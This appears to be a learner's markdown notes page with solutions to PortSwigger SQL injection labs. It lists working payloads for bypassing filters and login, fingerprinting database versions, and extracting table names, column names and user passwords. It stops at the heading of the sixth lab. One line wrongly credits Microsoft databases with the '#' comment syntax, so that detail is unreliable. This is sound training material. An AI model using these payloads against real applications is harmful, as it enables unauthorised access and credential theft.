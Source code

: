 https://portswigger.net/web-security/sql-injection 
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Labs:
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```

## 2. SQL injection vulnerability allowing login bypass

SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```

## 3. SQL injection querying the database type and version on Oracle

 Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
 ```
 .../filter?category=Accessories'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 .../filter?category=Accessories'UNION SELECT 'a', banner FROM v$version--
```

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft

Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 .../filter?category=Accessories'UNION SELECT'a','b'#
```

 Display the database version:
```
 .../filter?category=Accessories'UNION SELECT 'a', @@version#
 ```

## 5.SQL injection attack, listing the database contents on non-Oracle databases

Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
```
' UNION SELECT 'abc','def'--
```

Retrieve the list of tables in the database and find the name of the table containing user credentials
```
' UNION SELECT table_name, null FROM information_schema.tables--
```

Replacing the table name to retrieve the details of the columns in the table:
```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_abcdef'--
```
\
Replacing the table and column names to retrieve the usernames and passwords for all users:
```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

## 6.SQL injection attack, listing the database contents on Oracle
